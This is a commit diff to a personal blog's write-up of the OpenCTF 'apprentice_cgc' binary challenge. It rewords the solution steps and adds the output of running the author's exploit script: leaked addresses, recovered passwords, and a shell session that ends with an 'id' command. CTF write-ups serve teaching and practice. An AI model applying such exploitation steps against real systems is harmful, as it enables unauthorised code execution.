

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2016-08-05-openCTF-apprentice_cgc.md, in a window 1280 px wide and 900 px high, scrolled down 3523 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
openctf apprentice-cgc 300

```diff
--- a/_posts/2016-08-05-openCTF-apprentice_cgc.md
+++ b/_posts/2016-08-05-openCTF-apprentice_cgc.md
@@ -27,7 +27,8 @@ The local stack size of the vulnerable function was also different on each run.
 
 # Ghetto Solution
 
-The way I solved this is basically:
+Solution steps:
+
 1. Connect to the server and get the binary
 2. Drop the binary on disk and analyze it with objdump, storing the output in a variable
 3. Since the 2 password strings were exactly 32 bytes each and lowercase alphanum chars I used strings to find them
@@ -140,3 +141,21 @@ if __name__ == "__main__":
         pause()
         exploit(r)
 {% endhighlight %}
+
+
+{% highlight text %}
+➜  openCTF python ./apprentice_cgc_solution.py
+[*] For remote: ./apprentice_cgc_solution.py HOST PORT
+[+] Starting program '/vagrant/openCTF/apprentice_cgc_drop': Done
+[22003]
+[*] Paused (press any to continue)
+[*] Entry point: 0x8048736
+[*] Main at: 8048909
+['0x8048760', '0x806ccf0', '0x8050c70', '0x8050c70', '0x804ed50', '0x8048280', '0x80488da', '0x804ed50', '0x8048280', '0x804889a']
+['etvqwoqfrevvmesmuwtnzvqbbaozpxdt', 'apovsbykslqvuziibstoyjqmtjywfwjo']
+[*] Stack is at: 0xffce268c
+[*] Switching to interactive mode
+$ id
+uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
+$
+{% endhighlight %}
```
